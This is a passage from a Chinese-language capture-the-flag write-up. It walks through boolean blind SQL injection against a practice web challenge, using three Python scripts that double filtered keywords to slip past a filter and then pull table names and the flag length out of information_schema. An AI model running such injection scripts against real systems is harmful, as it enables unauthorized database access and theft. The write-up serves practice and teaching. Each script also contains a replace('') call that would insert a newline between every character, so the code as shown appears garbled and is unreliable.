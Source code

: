 得到数据库名 `ctf_sql_bool_blind`。爆表名长度：

```python
import requests
import string

success = 'You are in'
url = 'http://ctf5.shiyanbar.com/web/earnest/index.php'
chrset = string.digits + string.ascii_lowercase + '_!~'
i = 1

while True:
  val = "0'oorr((select(mid(group_concat(table_name separatoorr'@')from(%s)foorr(1)))from(infoorrmation_schema.tables)where(table_schema)=database())='')oorr'0" % i
  data = {'id': val.replace('', chr(0x0a))}
  print(data)
  r = requests.post(url, data=data)
  if success in r.text:
    print('Finished, len = %s' % i)
    break
  i += 1
```

得到所有表名连接起来后，包含分隔符 `@` 的总长为 10。爆表名：

```python
import requests
import string

success = 'You are in'
url = 'http://ctf5.shiyanbar.com/web/earnest/index.php'
chrset = string.digits + string.ascii_lowercase + '_!~@'
table = ''

for i in range(1, 12):
  for j in chrset:
    val = "0'oorr((select(mid(group_concat(table_name separatoorr'@')from(%s)foorr(1)))from(infoorrmation_schema.tables)where(table_schema)=database())='%s')oorr'0" % (i, j)
    data = {'id': val.replace('', chr(0x0a))}
    print(data)
    r = requests.post(url, data=data)
    if success in r.text:
      table += j
      print(table)
      break
```

得到表名 `fiag` 和 `users`，显然前者是我们需要的。用同样的方法爆列名长度和列名 `fl$4g`。最后爆 flag 内容的长度：

```python
import requests
import string

success = 'You are in'
url = 'http://ctf5.shiyanbar.com/web/earnest/index.php'
chrset = string.digits + string.ascii_lowercase + r'_~=+-*/{\}?!:@#$%&()[],.'
i = 1

while True:
  val = "0'oorr((select(mid((fl$4g)from(%s)foorr(1)))from(fiag))='')oorr'0" % i
  data = {'id': val.replace('', chr(0x0a))}
  print(data)
  r = requests.post(url, data=data)
  if success in r.text:
    print('Finished, len = %s' % i)
    break
  i += 1
```